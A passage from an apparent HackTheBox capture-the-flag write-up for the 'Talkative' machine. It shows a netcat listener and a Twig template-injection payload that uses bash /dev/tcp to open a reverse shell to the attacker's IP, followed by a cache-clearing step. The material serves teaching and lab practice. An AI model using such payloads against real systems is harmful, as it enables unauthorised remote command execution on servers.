 - **Setup a netcat listener:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.10|17:46:01(HKT)]
└> nc -lnvp 53
listening on [any] 53 ...
```

- **Add the following RCE Twig template injection payload via editing the template:**

```twig
{{['bash -c "bash -i >& /dev/tcp/10.10.14.6/53 0>&1"']|filter('system')}}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174700.png)

- **Clear the cache so that our modified template will take place:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230810174736.png)

